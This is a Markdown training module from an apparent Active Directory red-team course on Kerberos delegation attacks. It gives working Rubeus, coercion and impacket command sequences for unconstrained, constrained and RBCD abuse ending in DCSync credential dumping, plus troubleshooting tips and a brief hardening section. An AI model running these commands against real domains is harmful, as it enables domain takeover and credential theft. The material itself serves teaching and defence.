

# Module 06: Kerberos Delegation Tradecraft — Unconstrained, Constrained & RBCD

> **Navigation**: [⬅️ Module 05: AS-REP & Kerberoasting](Module-05-Kerberos-Attacks-ASREPRoast-and-Kerberoast.md) | [🏠 Master Index](../README.md) | [Module 07: AD CS (ESC1-ESC13) ➡️](Module-07-Active-Directory-Certificate-Services-ADCS.md)

---


## 1. Why Delegation Exists: The Enterprise Multi-Tier Problem

In modern enterprise architectures, multi-tier applications are standard: a user connects to a frontend web application (e.g., IIS or SharePoint), and the web application must query a backend database (e.g., MSSQL) to retrieve data specifically authorized for that user.

```
[Client Workstation: Alice] ===(1. Connects)===> [Frontend: Web Server] ===(2. Queries as Alice)===> [Backend: SQL Database]
```

To enforce database permissions on Alice's specific user account (rather than granting the Web Server broad database permissions), the Web Server must **impersonate** Alice to the SQL Server. In Active Directory, this capability is called **Kerberos Delegation**.

Active Directory supports three distinct delegation architectures, each with unique operational tradecraft and security vulnerabilities:
1. **Unconstrained Delegation** (Windows 2000)
2. **Constrained Delegation** with Protocol Transition / S4U (Windows Server 2003)
3. **Resource-Based Constrained Delegation (RBCD)** (Windows Server 2012)

---

## 2. Unconstrained Delegation & Domain Takeover

### Protocol Architecture:
* **Directory Flag**: `TRUSTED_FOR_DELEGATION` in the account's `userAccountControl` attribute (`0x80000`).
* **The Fatal Flaw**: When a domain user authenticates to a server configured with Unconstrained Delegation:
  1. The user's workstation asks the KDC for a **Forwardable TGT**.
  2. The workstation sends both the service ticket (TGS) AND the **user's entire Ticket Granting Ticket (TGT)** inside the Kerberos Authenticator.
  3. The unconstrained server extracts the user's TGT and **caches it in LSASS memory indefinitely**.
  4. The server can now use that cached TGT to impersonate the user to **ANY service on ANY machine across the entire Active Directory forest**!

```
+-----------------------------------------------------------------------------------------+
| UNCONSTRAINED DELEGATION EXPLOITATION WITH PRINTERBUG COERCION                          |
|                                                                                         |
|  ATTACKER (Compromised Web Server)                     DOMAIN CONTROLLER (DC01$)        |
|  IP: 10.0.0.50 (Unconstrained Delegation Enabled)      IP: 10.0.0.1                     |
|            |                                                   |                        |
|            | 1. Trigger RPC Coercion (PrinterBug / PetitPotam) |                        |
|            |    RpcRemoteFindFirstPrinterChangeNotificationEx  |                        |
|            +-------------------------------------------------->|                        |
|                                                                |                        |
|                                                                | DC connects back to    |
|                                                                | 10.0.0.50 via SMB/Kerb.|
|                                                                | Sends DC01$'s TGT!     |
|                                                                |                        |
|            | 2. DC01$ Authenticates & Forwards TGT             |                        |
|            |<--------------------------------------------------+                        |
|                                                                                         |
|  Attacker monitors LSASS memory. DC01$'s TGT is cached!                                 |
|  Attacker dumps DC01$ TGT -> Injects via Pass-the-Ticket -> DCSync -> Forest Compromise!|
+-----------------------------------------------------------------------------------------+
```

### Operational Attack Execution:

#### 1. Discover Systems with Unconstrained Delegation:
```bash
# Via Impacket / LDAP:
ldapsearch -x -H ldap://10.0.0.1 -b "DC=corp,DC=local" \
  "(userAccountControl:1.2.840.113556.1.4.803:=524288)" sAMAccountName

# Via PowerView:
Get-DomainComputer -Unconstrained | Select-Object name,dnshostname
```

#### 2. Monitor LSASS for Incoming TGTs (on the compromised unconstrained host):
```powershell
# Using Rubeus in harvest mode:
Rubeus.exe monitor /interval:5 /filteruser:DC01$ /nowrap
```

#### 3. Coerce the Domain Controller to Authenticate to the Unconstrained Host:
From your attack system:
```bash
python3 dementor.py -u 'jdoe' -p 'Pass123!' -d 'corp.local' 10.0.0.50 10.0.0.1
# Arguments: <UNCONSTRAINED_HOST_IP> <DOMAIN_CONTROLLER_IP>
```

#### 4. Extract and Weaponize the Captured DC TGT:
Rubeus outputs the base64-encoded TGT for `DC01$`. Inject it and execute DCSync:
```powershell
# Inject ticket on Windows:
Rubeus.exe ptt /ticket:doIFqjCCBaagAwIBBaEDAgEW...

# Or convert to ccache on Linux:
python3 ticketConverter.py dc01.kirbi dc01.ccache
export KRB5CCNAME=dc01.ccache

# Dump all domain hashes via DCSync:
impacket-secretsdump -k -no-pass 'corp.local/DC01$@10.0.0.1' -just-dc-user krbtgt
```

---

## 3. Constrained Delegation (S4U2self & S4U2proxy)

To fix the extreme risks of unconstrained delegation, Microsoft introduced **Constrained Delegation**, restricting which specific services a compromised server can impersonate users to.

```
+-----------------------------------------------------------------------------------------+
| S4U (SERVICE FOR USER) EXTENSIONS ARCHITECTURE                                          |
|                                                                                         |
|  SERVICE ACCOUNT (svc_iis)                             DOMAIN CONTROLLER (KDC)          |
|  Configured with:                                      IP: 10.0.0.1                     |
|  msDS-AllowedToDelegateTo = cifs/fileserver.corp.local                                  |
|            |                                                   |                        |
|            | 1. S4U2self Request:                              |                        |
|            |    "Give me (svc_iis) a TGS ticket to MYSELF      |                        |
|            |     on behalf of user: Administrator!"            |                        |
|            |    (No Administrator password required!)          |                        |
|            +-------------------------------------------------->|                        |
|            | 2. S4U2self Reply:                                |                        |
|            |    Issues valid forwardable TGS for Administrator |                        |
|            |<--------------------------------------------------+                        |
|                                                                                         |
|            | 3. S4U2proxy Request:                             |                        |
|            |    "Here is the S4U2self ticket for Administrator.|                        |
|            |     Issue a TGS for Administrator to access:      |                        |
|            |     cifs/fileserver.corp.local!"                  |                        |
|            +-------------------------------------------------->|                        |
|            | 4. S4U2proxy Reply:                               |                        |
|            |    Issues TGS for Administrator to target CIFS!   |                        |
|            |<--------------------------------------------------+                        |
|                                                                                         |
|  Attacker accesses fileserver as Administrator with full SYSTEM privileges!             |
+-----------------------------------------------------------------------------------------+
```

### Key Directory Attributes:
* **`msDS-AllowedToDelegateTo`**: Multi-valued list of target SPNs (e.g., `cifs/fs01.corp.local`) that the account is authorized to delegate to.
* **`TRUSTED_TO_AUTH_FOR_DELEGATION` (`0x1000000`)**: Flag enabling **Protocol Transition**. Allows the service to impersonate users who authenticated via non-Kerberos protocols.

### Execution via Impacket `getST.py`:
```bash
# Request service ticket impersonating Administrator:
impacket-getST -spn cifs/fs01.corp.local -impersonate Administrator \
  'corp.local/svc_iis:Summer2024!' -dc-ip 10.0.0.1

# Export ticket and execute lateral movement:
export KRB5CCNAME=Administrator.ccache
impacket-smbexec -k -no-pass 'corp.local/Administrator@fs01.corp.local'
```

---

## 4. Resource-Based Constrained Delegation (RBCD)

Introduced in Windows Server 2012, **Resource-Based Constrained Delegation (RBCD)** completely inverts the delegation trust model:
* In traditional constrained delegation, the **frontend service** controls delegation via `msDS-AllowedToDelegateTo` (configured by Domain Admins).
* In RBCD, the **TARGET RESOURCE** (e.g., the target server itself) controls who can delegate to it via the attribute:
  $$\text{msDS-AllowedToActOnBehalfOfOtherIdentity}$$
* **The Critical Difference**: Any user who has write access (`GenericAll`, `GenericWrite`, or `WriteProperty`) over a target computer object can configure RBCD on that target!



---

### Step-by-Step RBCD Attack Execution:

#### Step 1: Create a Controlled Computer Account:
By default, the Active Directory attribute `ms-DS-MachineAccountQuota` allows any standard domain user to register up to **10 machine accounts** in the domain:
```bash
impacket-addcomputer 'corp.local/jdoe:Pass123!' -computer-name 'ATTACKPC$' \
  -computer-pass 'CompPass123!' -dc-ip 10.0.0.1
```

#### Step 2: Configure RBCD on the Target Computer Object:
Assuming user `jdoe` has write permissions over `SQL01$`:
```bash
impacket-rbcd -action write -delegatee 'ATTACKPC$' -target 'SQL01$' \
  -dc-ip 10.0.0.1 'corp.local/jdoe:Pass123!'
```

#### Step 3: Request an Impersonated Service Ticket for Administrator via S4U:
```bash
impacket-getST -spn 'cifs/sql01.corp.local' -impersonate 'Administrator' \
  -dc-ip 10.0.0.1 'corp.local/ATTACKPC$:CompPass123!'
```

#### Step 4: Access Target with Administrative Authority:
```bash
export KRB5CCNAME=Administrator.ccache
impacket-secretsdump -k -no-pass 'corp.local/Administrator@sql01.corp.local'
```

---

## 5. Field Operator Troubleshooting & Error Scenarios

```
+---------------------------------------------+------------------------------------+---------------------------------------+
| Observed Error / Status Code                | Root Cause                         | Operator Troubleshooting & Workaround |
+---------------------------------------------+------------------------------------+---------------------------------------+
| KDC_ERR_BADOPTION (0xd)                     | Target user is marked with flag:   | User cannot be delegated. Target      |
| "KDC cannot accommodate requested option"   | NOT_DELEGATED (0x100000) or belongs| another administrative user or local  |
|                                             | to "Protected Users" group.        | domain user not in Protected Users.   |
+---------------------------------------------+------------------------------------+---------------------------------------+
| INSUFFICIENT_ACCESS_RIGHTS during           | ms-DS-MachineAccountQuota is set   | Cannot create new computer accounts.  |
| addcomputer.py                              | to 0 by security policy.           | Must compromise an existing computer  |
|                                             |                                    | or service account with an SPN.       |
+---------------------------------------------+------------------------------------+---------------------------------------+
| KRB_AP_ERR_MODIFIED (0x29)                  | SPN requested does not match the   | Check target SPN spelling. Ensure     |
| "Message stream modified"                   | machine's registered service class | FQDN is used (cifs/sql01.corp.local)  |
|                                             | or machine password changed.       | rather than NetBIOS name.             |
+---------------------------------------------+------------------------------------+---------------------------------------+
| S4U2self succeeds, but S4U2proxy fails with | Service account lacks Protocol     | Without Protocol Transition, target   |
| KDC_ERR_BADOPTION                           | Transition (TRUSTED_TO_AUTH_FOR_   | user must authenticate to service via |
|                                             | DELEGATION bit is missing).        | Kerberos first (cannot forge ticket). |
+---------------------------------------------+------------------------------------+---------------------------------------+
```

---

## 6. Defensive Hardening & Mitigation

### 1. Set `ms-DS-MachineAccountQuota` to 0:
Prevent standard users from creating computer accounts:
```powershell
Set-ADDomain -Identity "corp.local" -Replace @{"ms-DS-MachineAccountQuota"=0}
```

### 2. Protect High-Privilege Accounts from Delegation:
For all Domain Admins, Enterprise Admins, and executive accounts:
* In `dsa.msc`, open Account Properties -> Account Tab -> Account Options.
* Check: **Account is sensitive and cannot be delegated** (`NOT_DELEGATED` UAC flag `0x100000`).
* Add Tier 0 administrators to the **Protected Users** security group.

### 3. Audit `msDS-AllowedToActOnBehalfOfOtherIdentity` (Event ID 5136):
Monitor Active Directory object modifications for attribute `msDS-AllowedToActOnBehalfOfOtherIdentity`:
```sql
index=windows EventCode=5136 AttributeLDAPDisplayName="msDS-AllowedToActOnBehalfOfOtherIdentity"
| stats count by OpCorrelationID, SubjectUserName, ObjectDN
```


---

> **Navigation**: [⬅️ Module 05: AS-REP & Kerberoasting](Module-05-Kerberos-Attacks-ASREPRoast-and-Kerberoast.md) | [🏠 Master Index](../README.md) | [Module 07: AD CS (ESC1-ESC13) ➡️](Module-07-Active-Directory-Certificate-Services-ADCS.md)
